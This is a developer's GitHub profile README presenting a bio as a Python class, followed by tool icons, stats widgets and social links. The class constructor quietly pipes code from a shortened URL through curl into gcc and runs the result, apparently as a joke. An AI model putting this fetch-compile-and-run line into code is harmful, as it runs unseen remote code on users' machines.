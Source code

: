 <h1 align="center">Yo 👋, I'm Pratik Pingale 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&size=16&center=true&vCenter=true&width=485&lines=Just+a+novice.+Still+got+a+lot+to+learn.;Competitive+Coding+%3Ap;Loves+Open+Source+%E2%9D%A4%EF%B8%8F" alt="Just a novice. Still got a lot to learn. Competitive Coding :p. Loves Open Source ❤️" />
</p>

```python
class PROxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/pr0x21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 💼 I’m currently working for': {'Emerson' : 'https://www.emerson.com/en-us/global'},
      '- 🔭 I’m currently working on' : {'DarkSpider': 'https://github.com/PROxZIMA/DarkSpider',
                                         'Prism'     : 'https://github.com/PROxZIMA/prism',
                                         'Sweet-Pop' : 'https://github.com/PROxZIMA/Sweet-Pop'},
      '- 🌱 I’m currently learning'   : ['System Architecture', 'C++', 'Full Stack Development', 'Algo Trading'],
      '- 💬 Ask me anything'          : '¯\_(ツ)_/¯',
      '- 👨‍💻 My projects available at' : 'https://github.com/PROxZIMA?tab=repositories',
      '- 📄 Know about my experiences': 'https://proxzima.dev/resume',
      '- ⚡ Fun fact'                 : ('Proxima Centauri is a small, low-mass star located 4.2465 light-'
                                         'years away from the Sun in the southern constellation of Centaurus.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(PROxZIMA().__dict__)
```
<br>

### - Tools/Interests 🔗
<p align="center">


<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/arch.svg" alt="Arch Linux"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/popos.svg" alt="Pop!_OS"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/windows.svg" alt="Windows"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/android.svg" alt="Android"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/firefox.svg" alt="Firefox"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/git.svg" alt="Git"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/github.svg" alt="GitHub"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/bitbucket.svg" alt="BitBucket"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/python.svg" alt="Python"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/c.svg" alt="C"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/cplusplus.svg" alt="C++"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/java.svg" alt="Java"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/kotlin.svg" alt="Kotlin"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/bash.svg" alt="Bash"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/html5.svg" alt="HTML5"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/css3.svg" alt="CSS3"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/javascript.svg" alt="JavaScript"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/typescript.svg" alt="TypeScript"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/mysql.svg" alt="MySQL"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/postgresql.svg" alt="PostgreSQL"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/firebase.svg" alt="FireBase"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/numpy.svg" alt="Numpy"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/pandas.svg" alt="Pandas"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/jupyter.svg" alt="Jupyter"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/django.svg" alt="Django"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/flask.svg" alt="Flask"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/nodejs.svg" alt="Node.js"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/react.svg" alt="React"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/colab.svg" alt="Google Colab"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/arrow_back.svg" alt="Back Arrow"></a> &nbsp;&nbsp;
<a target="_blank" href="https://www.qwiklabs.com/public_profiles/8ce32532-ca12-4a89-aed0-99c9316cae73"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/cloud.svg" alt="Google Cloud"></a> &nbsp;&nbsp;
<a target="_blank" href="https://codepen.io/proxzima"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/codepen.svg" alt="CodePen"></a> &nbsp;&nbsp;
<a target="_blank" href="https://www.hackerrank.com/PROxZIMA"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/hackerrank.svg" alt="Hackerrank"></a> &nbsp;&nbsp;
<a target="_blank" href="https://www.codechef.com/users/proxzima"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/codechef.svg" alt="CodeChef"></a> &nbsp;&nbsp;
<a target="_blank" href="https://leetcode.com/PROxZIMA"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/leetcode.svg" alt="LeetCode"></a> &nbsp;&nbsp;
<a target="_blank" href="https://www.interviewbit.com/profile/PROxZIMA"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/interviewbit.png" alt="InterviewBit" width="40px"></a> &nbsp;&nbsp;
<a target="_blank" href="https://www.figma.com/@proxzima"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/figma.svg" alt="Figma"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/arrow_forward.svg" alt="Forward Arrow"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/postman.svg" alt="Postman"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/alacritty.svg" alt="Alacritty"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/neovim.svg" alt="NeoVim"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/vscode.svg" alt="VS Codium"></a> &nbsp;&nbsp;
<a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/android_studio.svg" alt="Android Studio"></a>
</p>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/graphics.svg" alt="NVIDIA 3050"></a>
  <a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/processor.svg" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/tools/laptop.svg" alt="Asus"></a>
</p>

### - Languages 🔭
<p align="center" >
  <a target="_blank" href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api/top-langs/?username=proxzima&&show_icons=true&theme=dracula&text_color=8b8b8b&bg_color=0000&hide_border=true&layout=compact&custom_title=Languages%20I%20Use&langs_count=8" alt="proxzima"/></a>
</p>

### - Stats ⚡️
<table style="border:none;margin:0 auto">
  <tr style="border:none;">
    <td style="border:none;"><a target="_blank" href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api?username=proxzima&include_all_commits=true&count_private=true&show_icons=true&theme=dracula&text_color=8b8b8b&bg_color=0000&hide_border=true&custom_title=PROxZIMA%27s%20Github%20Stats" alt="My Stats"/></a></td>
    <td style="border:none;"><a target="_blank" href="https://github.com/DenverCoder1/github-readme-streak-stats"><img src="https://github-readme-streak-stats.herokuapp.com?user=PROxZIMA&theme=dracula&dates=8b8b8b&background=0000&hide_border=true" alt="My Streak"/></a></td>
  </tr>
</table>
<br>

## - Find me around the web 🌎
<p align="center">
  <a href="mailto:contact@proxzima.dev"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/gmail.svg" alt="gmail"></a>
  <a target="_blank" href="https://linkedin.com/in/pratik-pingale"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/linkedin.svg" alt="pratik-pingale"/></a>
  <a target="_blank" href="https://www.instagram.com/pro_x_zima/"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/instagram.svg" alt="pro_x_zima"/></a>
  <a target="_blank" href="https://twitter.com/pro_x_zima"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/twitter.svg" alt="pro_x_zima"/></a>
<!--   <a target="_blank" href="https://www.reddit.com/user/PratikPingale"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/reddit.svg" alt="PratikPingale"/></a> -->
  <a target="_blank" href="https://discordapp.com/users/422274155509972992"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/discord.svg" alt="PROxZIMA#7272"/></a>
  <a target="_blank" href="https://t.me/PROxZIMA"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/telegram.svg" alt="PratikPingale"/></a>
  <a target="_blank" href="https://marketplace.visualstudio.com/publishers/PROxZIMA"><img src="https://raw.githubusercontent.com/PROxZIMA/PROxZIMA/master/src/social/marketplace.svg" alt="PROxZIMA"/></a>
</p>

<p align="center">
  <img src="https://komarev.com/ghpvc/?username=PROxZIMA&label=Profile+Views&color=282A36" alt="PROxZIMA" />
</p>

![](https://hit.yhype.me/github/profile?user_id=43103163)
